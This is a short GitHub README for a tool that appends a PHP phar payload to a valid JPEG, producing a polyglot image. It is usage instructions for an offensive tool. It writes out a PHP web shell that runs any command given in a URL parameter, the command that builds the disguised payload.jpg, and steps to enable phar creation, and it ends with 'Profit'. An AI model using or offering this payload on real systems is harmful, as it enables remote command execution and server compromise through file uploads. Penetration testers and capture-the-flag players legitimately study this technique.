 # JPEG PHAR Fusion

![alt text](http://url/to/img.png)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage
1. Clone the repo

`git clone https://github.com/Sarapuce/jpeg-phar-fusion.git`

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Profit


## It doen't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini
To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`